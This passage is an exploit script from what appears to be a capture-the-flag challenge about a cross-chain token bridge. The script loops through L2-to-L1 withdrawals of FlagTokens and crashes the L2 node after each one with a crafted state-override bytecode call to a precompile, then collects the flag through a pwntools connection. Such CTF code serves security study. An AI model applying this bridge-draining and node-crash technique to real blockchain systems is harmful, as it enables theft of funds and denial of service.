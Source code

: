 ```py
l2token = l2bridge.caller.remoteTokenToLocalToken(flag_token_addr)

# Waiting for the latest state to be dumped
sleep(5)

# Transfer FlagTokens from L2 to L1
for i in range(100):
    balance = flag_token.caller.balanceOf(bridge)
    print(f"FlagToken balance of l1Bridge: {balance}")
    if balance < int(90e18):
        break

    l2balance = decode_data(
        l2account.call(
            l2token,
            data=encode_with_signature("balanceOf(address)", l2account.address),
        ),
        ["uint256"],
    )
    print(f"FlagToken L2 balance of player: {l2balance}")

    l2bridge.functions.ERC20Out(
        l2token, l1account.address, int(5e17) - i  # avoid same relay message hash
    ).send_transaction()

    # Waiting for message to be relayed
    sleep(2)

    while True:
        try:
            # Kill the L2 node
            l2account.call(
                "0x0000000000000000000000000000000000031337",
                state_override={
                    "0x0000000000000000000000000000000000031337": {
                        # address(1337).staticcall{gas: 2000}(abi.encodePacked(hex"0204", new bytes(0x11)))
                        "code": "0x6002600053600460015360006000601360006105396107d0fa"
                    },
                },
            )
            continue
        except:
            # Waiting for L2 node to restart
            sleep(5)
            break

svr = pwn.remote(HOST, PORT)
svr.sendlineafter(b"action?", b"3")
svr.interactive()
```
